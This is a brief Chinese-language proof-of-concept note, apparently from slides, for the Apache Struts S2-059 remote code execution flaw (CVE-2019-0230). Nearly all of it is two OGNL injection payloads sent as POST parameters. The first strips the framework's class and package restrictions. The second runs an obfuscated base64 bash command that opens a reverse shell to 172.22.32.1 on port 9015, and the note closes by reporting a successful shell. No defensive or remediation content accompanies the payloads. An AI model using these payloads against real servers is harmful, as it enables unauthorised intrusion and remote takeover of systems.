

Apache Struts S2-059 远程代码执行漏洞(CVE-2019-0230)
编写poc
第一个post请求
"id":"%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
第二个post请求
"id":"%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjIuMzIuMS85MDE1IDA+JjE=}|{base64,-d}|{bash,-i}'))}“
成功getshell